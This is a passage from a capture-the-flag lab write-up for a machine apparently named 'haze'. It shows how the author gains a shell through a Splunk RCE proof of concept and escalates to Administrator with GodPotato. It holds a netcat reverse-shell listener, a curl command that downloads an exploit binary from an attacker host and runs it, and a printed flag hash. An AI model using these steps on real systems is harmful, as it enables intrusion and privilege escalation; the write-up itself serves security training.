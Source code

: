 This version is vulnerable to [CVE-2023-46214](https://github.com/nathan31337/Splunk-RCE-poc). Just change the ip, upload the app and it gives us a shell for alexander.green.

![haze7](/assets/img/haze7.png)

On host:
```bash
nc -lvnp 4444
PS C:\Windows\system32> PS C:\> whoami
haze\alexander.green
```

alexander has the `SeImpersonatePrivilege` so we can use GodPotato to escalate to root.
```bash
PS C:\Windows\system32> PS C:\> whoami /priv

PRIVILEGES INFORMATION
----------------------

Privilege Name                Description                               State
============================= ========================================= ========
SeMachineAccountPrivilege     Add workstations to domain                Disabled
SeChangeNotifyPrivilege       Bypass traverse checking                  Enabled
SeImpersonatePrivilege        Impersonate a client after authentication Enabled
SeCreateGlobalPrivilege       Create global objects                     Enabled
SeIncreaseWorkingSetPrivilege Increase a process working set            Disabled
```

Just download the .exe and run it:
```bash
curl 10.10.14.5:5000/static/GodPotato-NET4.exe -OutFile .\gp.exe
.\gp.exe -cmd "cmd /c type C:\Users\Administrator\Desktop\root.txt"
# e3a04c824c6a04760ff90ccc51df1149
```
